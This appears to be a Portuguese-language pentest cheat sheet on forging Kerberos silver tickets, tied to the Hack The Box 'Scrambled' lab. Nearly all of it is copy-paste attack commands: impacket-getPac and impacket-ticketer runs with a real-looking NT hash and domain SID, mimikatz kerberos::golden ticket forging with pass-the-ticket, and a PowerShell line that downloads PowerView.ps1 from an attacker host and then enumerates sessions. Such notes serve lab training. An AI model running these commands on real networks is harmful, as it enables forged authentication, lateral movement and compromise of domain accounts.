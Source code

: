 1\) Domain SID

2\) Hash

3\) Nome do domínio

4\) SPN

#### Obtendo o domain SID

```
impacket-getPac -targetUser administrator domain/user:password
```

```
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
```

**Obtendo o silver ticket**

```
impacket-ticketer -nthash 5f38c0485f0c23f8dedf9bf23ffa5336  -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip dc1.scrm.local -spn MSSQLSvc/dc1.scrm.local:1433 administrator
```

Caso já tenha acesso na máquina

```
whoami /user
#Daí, com o mimikatz, a gente faz o seguinte:
./m.exe
kerberos::list
kerberos::golden /user:user /domain:domain.com /sid:domain-SID /target:SPN /service:HTTP
/rc4:NTLM /ptt
#Exemplo
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP
/rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list
```

Tem a demonstração deste ataque no seguinte vídeo (Scrambled - Hack the box):

{% embed url="https://www.youtube.com/watch?v=_8FE3JZIPfo&ab_channel=IppSec" %}

[https://www.hackingarticles.in/lateral-movement-pass-the-ccache/](https://www.hackingarticles.in/lateral-movement-pass-the-ccache/)

### PowerView

```
(new-object net.webclient).downloadfile('http://10.10.14.17/PowerView.ps1', 'c:\temp\pv.ps1')
. .\pv.ps1
get-netsession -computername htb.local
get-netloggedon -computername htb.local
```
